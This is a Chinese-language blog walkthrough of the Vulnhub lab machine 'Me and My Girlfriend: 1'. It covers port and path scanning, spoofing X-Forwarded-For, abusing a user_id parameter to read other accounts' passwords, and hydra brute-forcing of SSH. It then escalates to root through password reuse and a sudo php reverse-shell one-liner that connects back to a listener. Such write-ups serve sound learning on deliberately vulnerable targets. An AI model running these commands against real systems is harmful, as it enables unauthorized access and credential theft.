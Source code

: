 ```yaml
---
title: "Me and My Girlfriend: 1-Vulnhub Walkthrough"
categories: [ "安全技术" ]
tags: [ "vulnhub","靶机","walkthrough" ]
draft: false
slug: "502"
date: "2020-02-13 21:28:00"
---
```


[靶机地址][1]

此靶机具有双`flag`，普通用户一个，`root`用户一个

## 工具及漏洞信息

- netdiscover
- nmap
- gobuster
- hydra
- x-forwarded-for 本地访问
- 水平越权
- mysql 密码可能就是 root 密码

## 0x01 信息收集

### 扫描靶机

`netdiscover`的`-r`参数扫描`192.168.1.0/16`结果如下：

![][2]

`nmap`扫描主机及端口信息：

```
nmap -sS -A -n -T4 -p- 192.168.1.12
```

![][3]

可以看到只开启了`ssh`和`web`80 端口

### 扫描路径

虽然大部分情况下不需要扫描路径，但是做工作做全套

`gobuster`扫描路径：

```
gobuster dir -u http://192.168.1.12 -s 200,301,302 -t 50 -q -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![][4]

看来是没啥了，只有`robots.txt`必须每次要看一下，得到文件路径`heyhoo.txt`

得到了不痛不痒的提示：

```
Great! What you need now is reconn, attack and got the shell。
```

访问首页如下：

![][5]

提示只能从本地访问，`ctf`中的入门问题：`x-forwarded-for`需要改为`127.0.0.1`表示来自本地的访问

多种方法可用，抓包也行，插件更多：`Header Editor`，`X-Forwarded-For Header`

我这里使用`X-Forwarded-For Header`:

![][6]

## 0x02 普通账户 shell

进入首页：

![][7]

尝试登录弱口令无效，那我们注册一个账号:

![][8]

登录后链接变为；

```
http://192.168.1.12/index.php?page=dashboard&user_id=12
```

看到这个`user_id=xxx`就想把它改为 1，用户名密码发生了改变：

![][9]

通过`firefox`网页源代码查看功能，发现把密码隐藏框的属性`type`由`password`改为其他任意的就可以查看密码：

![][10]

存在水平越权，又能查看密码，那我们就把整个数据库的账户密码存下来

前面端口扫描的时候，记得除了`80`还有一个`22`的`ssh`登录

使用`hydra`和我们爆破出的账户密码来爆破`ssh`服务：

```
hydra -L user.txt -P passwd.txt -t 4 -I ssh://192.168.1.12
```

- -t:4 每个目标并行连接的任务数，因为`ssh`很容易被测试崩
- -I 表示跳过烦人的等待时间

![][11]

爆破成功，获得`ssh`的账号密码：`alice/4lic3`，登陆之

## 0x03 提权 root

登录后第一步查看当前目录：`ls -al`

![][12]

在`.my_secret`目录下获得第一个`flag`

我们在扫描网站路径时除了`robots.txt`好像还有点其他东西，于是进入网站根目录看一下：

```
cd /var/www/html
```

`config`目录里是一个配置文件，内容为`mysql`的链接:

![][13]

尝试连接`sql`数据库查看信息:

![][14]

指定配置文件中给出的数据库，查看内容：

![][15]

只是网站上的用户的数据库，没什么可用的

正当我觉得没用的时候，突然想到万一这不仅仅是数据库的密码呢？

退出数据库，切换`root`用户:`su root`,输入数据库的密码:

![][16]

进去了!WTF?

![][17]

## 0x04 换种方法提权 root

不行啊，这也太没技术含量了，这不就是查看目录的操作吗？

下面我们再换一种没有技术含量的方法::quyin:1huaji::

现在`kali`上监听`nc -lvp 3333`

靶机上`php`反弹`shell`:

```
sudo /usr/bin/php -r '$sock=fsockopen("192.168.1.2",3333);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![][18]

参考文章：

- [vulnhub 之 Me-and-My-Girlfriend-1 实战][19]
- [特权升级获取 flag 的详细过程及思路][20]
- [VulnHub 靶机系列实战教程][21]

本文完。

[1]: https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/
[2]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_212847.png
[3]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_212928.png
[4]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_214204.png
[5]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_213226.png
[6]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_213557.png
[7]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_213817.png
[8]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_214511.png
[9]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_214911.png
[10]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_215028.png
[11]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_220715.png
[12]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_221116.png
[13]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200214_101438.png
[14]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200214_102100.png
[15]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200214_102138.png
[16]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200214_102452.png
[17]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200214_102550.png
[18]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200214_103315.png
[19]: https://mp.weixin.qq.com/s/dXc9QHMt26Tcck0YyW9Kog
[20]: https://mp.weixin.qq.com/s/zPX29w8cDEcm66HY9qBRyg
[21]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ